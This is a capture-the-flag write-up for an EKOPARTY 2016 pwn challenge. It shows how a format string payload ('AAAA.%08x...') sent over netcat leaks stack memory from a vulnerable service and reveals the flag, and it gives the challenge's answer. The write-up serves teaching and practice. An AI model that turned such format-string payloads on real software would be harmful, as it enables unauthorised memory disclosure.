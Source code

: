 # My First Service

### Challenge
- **Competition:** EKOPARTY CTF 2016
- **Category:** PWN
- **Points:** 100

> Blacky is taking his first steps at C programming for embedded systems, but he makes some mistakes. Retrieve the secret key for access.
> 
> nc 9a958a70ea8697789e52027dc12d7fe98cad7833.ctf.site 35000


### Solution

The challenge text gives a clue that this server may be running some sort of vulnerable program.  A typical session with the server might look like this:

```bash
$ nc 9a958a70ea8697789e52027dc12d7fe98cad7833.ctf.site 35000
Welcome to my first service
Please input the secret key: 123abc
Invalid key: 123abc
```

My input was printed back to me.  This was an excellent opportunity to test for a format string vulnerability.  
The basis of this attack was to begin with 4 letter As __(AAAA)__, followed by a bunch of format string specifiers __(.%08x)__.  The As exist to help identify where the user input begins on the stack.  The format string specifiers, if there is a vulnerability, will actually read data off of the stack and print it.  This happens when the format string doesn't account for extra specifiers.  The format string modifiers have the form __.%08x__ in my attack, which means:

- the dot (__.__) merely helps to distinguish one chunk of data from the next
- the percent sign (__%__) signifies the beginning of a format string specifier
- the __08__ portion modifies this specifier such that it should print exactly 8 bytes of data, and if there are less than 8 bytes available, then it should be padded with zeros so that the output is always 8 bytes long
- the __x__ portion is the specifier for hexadecimal without a leading __0x__

```bash
Please input the secret key: AAAA.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
Invalid key: AAAA.00000000.00000001.00000000.00000000.00000000.0000000a.00000000.454b4f7b.4c614269.67426566.3072647d.00000000.41414141.2e253038.782e2530.38782e25.3038782e.25303878.2e253038.782e2530.38782e25.3038782e
```

The vulnerability definitely existed, and the program returned some data off of the stack to me.  The interesting parts are:

`00000000.454b4f7b.4c614269.67426566.3072647d.00000000.41414141`

There are 16 bytes of data surrounded by null data, with my original __AAAA__ input beginning after the second null data.  After converting the 16 bytes of hex to ascii, I learned that it was the flag.


### Flag

`EKO{LaBigBef0rd}`